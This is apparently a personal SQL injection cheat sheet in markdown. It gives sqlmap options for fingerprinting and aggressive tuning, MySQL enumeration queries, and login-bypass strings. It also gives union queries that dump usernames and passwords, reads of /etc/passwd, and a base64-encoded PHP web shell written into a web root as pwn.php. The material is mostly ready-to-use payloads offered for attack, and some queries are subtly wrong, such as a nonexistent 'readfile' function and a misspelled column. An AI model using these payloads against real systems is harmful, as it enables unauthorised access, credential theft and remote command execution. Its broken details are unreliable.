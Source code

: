 # SQLi
 - [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## SQLMap
### Tips
- Copy the request as cURL in the devtools and change curl to sqlmap
- Save burp requests to text files and load them in sqlmap with `sqlmap -r request.txt`
### Don't ask for user input
```bash
sqlmap ... --batch
```
### Fingerprint
```bash
sqlmap ... --current-user --banner --current-db --is-dba
```
### Send traffic through proxy
```bash
sqlmap ... --proxy http://127.0.0.1:8080
```
### Save traffic to file
```bash
sqlmap ... -t ./out.txt
```
### Verbosity
#### Show errors
```bash
sqlmap ... --parse-errors
```
#### Verbose output
```bash
# No info logs
sqlmap ... -v 0
```
```bash
# All payloads
sqlmap ... -v 3
```
### Tuning
```bash
sqlmap ... --level=5 --risk=3
```
```bash
sqlmap ... --union-cols=6 --union-char='A'
```
```bash
sqlmap ... --prefix="\`)" --suffix="-- +" 
```

## Mysql
- [payload all the things mysql](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
### Fingerprint
```sql
select @@version
select sleep(3)
```
#### Enum dbs
```sql
select schema_name from information_schema.schemata
```
#### Enum tables
```sql
select table_name,table_schame from information_schema.tables where table_schema='zzz'
```
#### Enum columns
```sql
select column_name,table_name from information_schema.columns where table_name='zzz' and table_schema='zzz'
```
#### Enum current user
```sql
select user();
```
#### Enum current user privileges
```sql
select grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="'<user>'@'<host>'"
```
#### Enum current user write file
Check if value is empty for access, whereas NULL means no access.
```sql
select variable_name,variable_value from information_schema.global_variables where variable_name='secure_file_priv'
```
### Read file
```sql
select readfile('/etc/passwd')
```
### Write file
```sql
select from_base64("PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+") into outfile '/var/www/html/pwn.php'
```
### Login bypass
```sql
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
```
### Some union injection examples
```sql
' union select 1,username,password,4,5,6 from db1.users;-- -
```
```sql
' union select 1,user(),3,4,5,6;-- -
```
```sql
' union select 1,sleep(3),3,4,5,6;-- -
```
```sql
' union select 1,readfile("/etc/passwd"),3,4,5,6;-- -
```
